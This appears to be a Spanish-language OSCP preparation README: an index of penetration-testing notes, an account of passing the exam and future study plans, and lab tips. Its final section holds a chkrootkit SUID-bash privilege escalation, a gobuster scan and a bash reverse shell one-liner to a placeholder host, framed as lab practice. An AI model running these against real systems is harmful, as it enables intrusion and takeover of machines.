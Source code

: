 # OSCP preparation

## List
- [**Windows Active Directory**](./winad.md)
- [**Shell Management**](./shellMGT.md)
- [**General enumeration**](./enum.md)
- [**Engagement Structure**](https://academy.hackthebox.com/module/39/section/384)
- [**File transfers**](./fileTransfer.md)
- [**Metasploit tricks**](./msf.md)
- [**Pivoting**](./pivoting.md)
- [**Cross-Site Scripting**](./xss.md)
- [**SQL Injection**](./sqli.md)
- [**Local File Inclusion & Path Traversal**](./LFI.md)
- [**Arbitrary File Upload**](./arbitraryFileUpload.md)
- [**Command Injection**](./commandInjection.md)
- [**Other web attacks**](./otherWebAttacks.md)
- [**Privilege Escalation**](./privEsc.md)
- [**Windows Privilege Escalation**](./winPrivEsc.md)
- [**Reporting**](./reporting.md)
- [**Documents, Office, LibreOffice, macros attacks**](./office.md)
- [**Cookie Extraction**](./cookieExtraction.md)
- [**Buffer Overflow**](./bufferOverflow.md)
- [**SMTP/POP/IMAP Mail Server Pentesting**](./smtp.md)
- [**Library-MS WebDav Attack**](./webdav-phishing.md)


## Aprobé el examen
Bueno mis queridos lectores de mi humilde blog, les quería comentar que este Domingo 13 de Julio del 2025 me llegó el mail de Offensive Security que me decía que había aprobado el examen de OSCP.
Mi recorrido por este examen fue bastante arduo y largo pues hice una sobrepreparación porque leí demasiada gente llorando y copeando en [/r/OSCP](https://www.reddit.com/r/oscp/) que me dió un poco de miedo reprobarlo y tener que pagar el recuperatorio que cuesta como 150 dolares.
Lo que hice para prepararme fue:
- Rendir [PNPT](https://certified.tcm-sec.com/76169ba5-9caf-44c0-96b4-6f76b342f0c4#acc.mv0WE3Kr)
- Rendir [CPTS](https://www.credly.com/badges/2a9e3b5b-f684-45d9-ab2d-a74e7cf9714e/public_url)
- Hacer tres prolabs en Hack the Box:
    1. Dante
    2. Zephyr
    3. Rasta
- Hacerme toda la [famosa lista de TJ Null](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview) todas las maquinas de Hack The Box y de Proving Grounds practice.
Cabe aclarar que tengo 3 años de experiencia en la industria y que también estoy siguiendo un grado en ciencias de la computación que es durisimo, así que no es que me preparé de la nada, ya tenía una base sólida de conocimientos.
Pero si consideramos desde que empecé a estudiar para PNPT hasta que rendí el examen fueron aproximadamente 6 meses.
Cualquier duda que tengan al respecto no tengo ningún problema en responderla por discord, reddit o el mail que está en mi [página web](https://grunt.ar/) :)

----

## ¿Y ahora que?

Ahora probablemente siga estudiando topicos que me interesan que no son tanto de "pentesting" como tal.
- MalDev => Tengo un proyecto de armar un C2 funcional con Telegram y con agentes en RUST, algo así como Pysilon pero con RUST y Telegram en vez de Python y Discord.
    - También seguro me apoye en algunos modulos de Hack The Box Academy del "CAPE" que están buenos para aprender evasión entre otros topicos.
- ExploitDev => Con mis conocimientos actuales de arquitectura (ANSI C, NASM x86_64, RISC-V, ABI Linux) me siento capaz de poder aprender a hacer buen reversing y aprender explotación a bajo nivel. Voy a estar estudiando en [pwn.college](https://pwn.college/) y con el curso de [ret2systems](https://wargames.ret2.systems/course).
    - La verdad que me gustaría ir directo por el OSED pero es muy caro :/
- BSCP => Burp Suite Certified Practitioner. O sea, aprender hacking web más avanzado, actualmente poseo la eWPTv2 y trabajé mucho sobre aplicaciones web y mobile dentro de mi labor como AppSec, pero aún así creo que puedo abordar más estudiando en los labs de port swigger que tienen muy buena pinta.


## Extras

### Maquina centOS una privesc rara
- https://seclists.org/fulldisclosure/2019/Apr/24


### En una maquina que pwnee que tenía la vuln shellshock, fue clave la enumeración para poder explotar la misma
```
❯ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 400 -x cgi,php,sh --add-slash
```

#### el -x sh me dió la enumeración correcta

Sí encuentro el puerto 53 es conveniente seguir la siguiente guía de enumeración
https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns

### Vulnerabilidad en chkrootkit versión 0.49. Para evitar usar metasploit, sirve chequear:
[https://www.exploit-db.com/exploits/33899](https://www.exploit-db.com/exploits/33899)

```
cat /etc/cron.daily

/usr/bin/chkrootkit
ls -la /usr/bin/chkrootkit     // Do we have SUID?
chkrootkit -V
echo "#!/bin/bash" > /tmp/update
echo "chmod +s /bin/bash" >> /tmp/update
Wait a While ...
/bin/bash -p
whoami
```

### Problemas para reverse shell dentro de sqli

Hay veces que cuando puedo obtener RCE mediante una sqli porque tengo acceso de escritura con el user de la db que maneja la aplicación web no siempre me quiere ejecutar bien una revshell, pero con esto sí:

```
bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'
```

es el único que me vino funcionando en 2 maquinas de SQLI